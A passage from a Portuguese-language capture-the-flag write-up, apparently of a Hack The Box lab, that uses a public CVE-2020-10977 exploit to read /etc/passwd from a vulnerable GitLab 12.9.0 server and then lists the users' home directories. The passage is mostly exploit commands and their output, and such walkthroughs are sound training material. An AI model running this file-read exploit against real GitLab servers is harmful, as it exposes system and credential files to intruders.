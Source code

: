 Após algumas tentativas com os scripts do searchsploit não obtive o sucesso esperado. Em nova busca acabei encontrando o [CVE-2020-10977 no MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-10977) que está relacionado à esta vulnerabilidade e, a partir desta informação, encontrei outros exploits a serem testados, sendo o disponível no repositório [thewhiteh4t/cve-2020-10977: GitLab 12.9.0 Arbitrary File Read (github.com)](https://github.com/thewhiteh4t/cve-2020-10977) o utilizado.

Com este script, pude confirmar que o servidor continua vulnerável à exploração conforme possibilidade de obter o arquivo `/etc/passwd`.

```bash
$ python3 ./cve_2020_10977.py https://git.laboratory.htb dummy P@ssw0rd                                   
----------------------------------                                                                       
--- CVE-2020-10977 ---------------       
--- GitLab Arbitrary File Read ---               
--- 12.9.0 & Below ---------------    
----------------------------------                                                                       
                                                                                                         
[>] Found By : vakzz       [ https://hackerone.com/reports/827052 ]
[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t      ]
                                                                                                         
[+] Target        : https://git.laboratory.htb                                                           
[+] Username      : dummy                                                                                
[+] Password      : P@ssw0rd
[+] Project Names : ProjectOne, ProjectTwo

[!] Trying to Login...         
[+] Login Successful!
[!] Creating ProjectOne...
[+] ProjectOne Created Successfully!
[!] Creating ProjectTwo...
[+] ProjectTwo Created Successfully!
[>] Absolute Path to File : /etc/passwd
[!] Creating an Issue...
[+] Issue Created Successfully!
[!] Moving Issue...
[+] Issue Moved Successfully!
[+] File URL : https://git.laboratory.htb/dummy/ProjectTwo/uploads/09bddb24c9ac93d1a011f6ed14054a66/passwd

> /etc/passwd
```

Verificando o conteúdo do `/etc/passwd` podemos notar que os usuários desta máquina, além de *root* e *ssh* foram criados e utilizam basicamente a mesma raiz de diretório em `/var/opt/gitlab`, onde vamos buscar por arquivos interessantes

```bash
$ cat etc_passwd | grep sh | awk -F":" '{print $6","$1}'
/root,root
/var/run/sshd,sshd
/var/opt/gitlab,git
/var/opt/gitlab/postgresql,gitlab-psql
/var/opt/gitlab/mattermost,mattermost
/var/opt/gitlab/registry,registry
/var/opt/gitlab/prometheus,gitlab-prometheus
/var/opt/gitlab/consul,gitlab-consul
```
